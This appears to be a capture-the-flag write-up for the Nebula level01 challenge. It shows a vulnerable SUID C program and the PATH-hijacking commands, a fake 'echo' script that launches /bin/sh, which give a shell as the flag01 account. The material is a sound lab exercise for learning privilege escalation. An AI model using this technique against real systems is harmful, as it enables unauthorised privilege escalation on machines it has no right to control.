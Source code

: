 # Level 01
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the `level01` account with the password `level01`. Files for this level can be found in `/home/flag01`.

## Source code
```c++
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

## Writeup
The problem in this code is use `eUID` and run `echo` command in simple relative path.
We can cange the `$PATH` variable to run a custom echo command, because `/home/flag01/flag01` binary has `SUID` setted.

Write a custom `echo` command inside our home directory `/home/level01`:

```bash
echo '/bin/sh' > /home/level01/echo
```

Make this script executable:
```bash
chmod +x /home/level01/echo
```

Now if we change `$PATH` variabile by adding `/home/level01` at the start and execute the `/home/flag01/flag01` binary, we get a shell with flag01 account:

```bash
env PATH=/home/level01:$PATH /home/flag01/flag01
```

We can verify it, with `id` command:

```bash
level01@nebula:~$ env PATH=/home/level01:$PATH /home/flag01/flag01 
sh-4.2$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
```

Now we can run `getflag` command:

```bash
sh-4.2$ getflag
You have successfully executed getflag on a target account
```